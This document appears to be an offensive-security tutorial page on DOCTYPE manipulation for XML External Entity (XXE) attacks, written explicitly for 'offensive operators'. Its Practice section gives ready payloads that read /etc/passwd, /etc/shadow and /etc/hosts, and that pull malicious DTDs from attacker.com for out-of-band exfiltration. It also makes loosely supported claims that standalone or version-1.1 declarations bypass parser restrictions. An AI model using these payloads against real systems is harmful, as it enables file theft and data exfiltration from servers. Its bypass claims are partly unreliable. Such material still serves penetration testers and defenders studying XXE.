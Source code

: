 ```yaml
---
title: Advanced DOCTYPE Manipulation Techniques
description: Explore how to leverage DOCTYPE manipulation for XML parser exploitation
  and security bypassing in web applications.
keywords:
- DOCTYPE manipulation
- XXE exploitation
- XML parser bypass
- internal subset
- external subset
- mixed content model
- DTD injection
- standalone declaration bypass
---
```


# DOCTYPE Manipulation

## Context

The purpose of this article is to enable offensive operators to exploit weaknesses in XML parsers using advanced DOCTYPE manipulation, a technique often employed for evasion and bypass. Readers should have a foundational understanding of XML structures and syntax, the basics of Document Type Definitions (DTD), and the XML parsing process. Familiarity with standard XML External Entity (XXE) exploitation will be beneficial.

## Theory

### Role of DOCTYPE in XML Parsing

DOCTYPE declarations play a crucial role in defining the DTD for an XML document. They control how entities are declared and how the document is validated. By manipulating DOCTYPE, attackers can significantly alter parser behavior, potentially bypassing security controls intended to prevent unauthorized access or data leakage.

### Internal vs. External Subsets in DOCTYPE

DOCTYPE can have either internal or external subsets. 

- **Internal subset** defines DTD declarations within the XML document itself.
- **External subset** refers to DTD declarations that are loaded from an external resource.

Parsers may handle these subsets differently, which can lead to inconsistent security enforcement. This inconsistency can be leveraged by attackers to perform unauthorized actions.

### Advanced DOCTYPE Manipulation Techniques

Crafting specific attack sequences involves injecting custom internal subsets to redefine or introduce entities for exploitation. Additionally, leveraging external subsets allows for loading malicious DTDs from attacker-controlled servers. Some parsers may overlook security settings when parsing complex or deeply nested DOCTYPE declarations, creating potential vulnerabilities.

### Evasion via Mixed Content Models and Fragment Injection

Attackers can embed malicious DTD fragments within mixed content models, which can bypass static security filters. The strategy involves splitting DTD payloads across multiple XML elements or attributes to evade detection.

### Bypassing with Standalone and XML Declarations

Manipulating standalone or XML declarations can influence parser behavior, effectively bypassing existing security restrictions. This manipulation becomes a tool for attackers to ensure that the parser processes the DTDs despite restrictive environmental settings.

## Practice

### Internal Subset DOCTYPE Injection

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <root>&xxe;</root>
  ```
- **Explanation:** This payload injects a malicious internal subset to define an XXE entity capable of arbitrary file read or command execution.
- **Outcome:** Exploiting internal DTD manipulation may result in the unauthorized reading of sensitive files or execution of commands on the target server.

### External Subset DOCTYPE Reference

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root SYSTEM "http://attacker.com/malicious.dtd">
  <root>&xxe;</root>
  ```
- **Explanation:** An attacker-controlled external DTD is referenced to introduce malicious entities.
- **Outcome:** Remote DTD loads can enable advanced XXE attacks or out-of-band data exfiltration.

### Mixed Content Model DTD Fragment Injection

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root [
  <!ELEMENT root (#PCDATA|foo)*>
  <!ENTITY % dtd SYSTEM "http://attacker.com/fragment.dtd">
  %dtd;
  ]>
  <root>test</root>
  ```
- **Explanation:** The payload injects DTD fragments via mixed content to evade static security filters.
- **Outcome:** This approach can bypass input validation, enabling DTD-based attacks that remain undetected by conventional filters.

### Standalone Declaration Bypass

- **Payload:**
  ```xml
  <?xml version="1.0" standalone="no"?>
  <!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/shadow">
  ]>
  <root>&xxe;</root>
  ```
- **Explanation:** By altering the standalone declaration, this technique influences the parser's processing of DTDs.
- **Outcome:** The parser may process DTDs despite restrictive settings, allowing for the execution of unauthorized actions.

### XML Declaration Manipulation

- **Payload:**
  ```xml
  <?xml version="1.1"?>
  <!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/hosts">
  ]>
  <root>&xxe;</root>
  ```
- **Explanation:** This tactic changes the XML version to bypass version-specific parser restrictions.
- **Outcome:** It can bypass version-based input validation or parser restrictions, permitting exploitation activities.

## Tools

- **Burp Suite**
- **curl**
- **XXEinjector** 
